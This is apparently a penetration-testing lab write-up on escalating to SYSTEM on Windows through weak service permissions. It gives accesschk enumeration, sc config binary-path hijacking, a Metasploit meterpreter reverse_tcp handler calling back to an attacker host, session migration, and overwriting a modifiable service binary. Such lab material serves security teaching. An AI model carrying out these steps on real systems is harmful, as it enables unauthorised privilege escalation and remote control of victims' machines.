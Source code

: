 # Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% code title="attacker@victim" %}
```
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endcode %}

Below indicates that the user `mantvydas` has full access to the service:

![](../../.gitbook/assets/annotation-2019-05-21-205403.png)

Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:

{% code title="attacker@victim" %}
```
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-205633.png)

Let's fire up a multihandler in mfsconsole:

{% code title="attacker@kali" %}
```
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

...and start the vulnerable service:

{% code title="attacker@victim" %}
```
.\sc.exe start evilsvc
```
{% endcode %}

..and enjoy the meterpreter session:

![](../../.gitbook/assets/annotation-2019-05-21-210027.png)

Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:

{% code title="attacker@kali" %}
```
run post/windows/manage/migrate
```
{% endcode %}

Even though the service failed, the session was migrated and saved:

![](<../../.gitbook/assets/Annotation 2019-05-21 210541 (1).png>)

## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:

{% code title="attacker@victim" %}
```
sc.exe qc evilsvc
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-210916.png)

Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for (M)odify or (F)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% code title="attacker@victim" %}
```
icacls C:\service.exe
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-211128.png)

Since c:\service.exe is (M)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% code title="attacker@victim" %}
```
cp C:\program.exe C:\service.exe
ls c:\
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-211232.png)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:

![](../../.gitbook/assets/annotation-2019-05-21-211349.png)

Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:

![](../../.gitbook/assets/annotation-2019-05-21-212438.png)
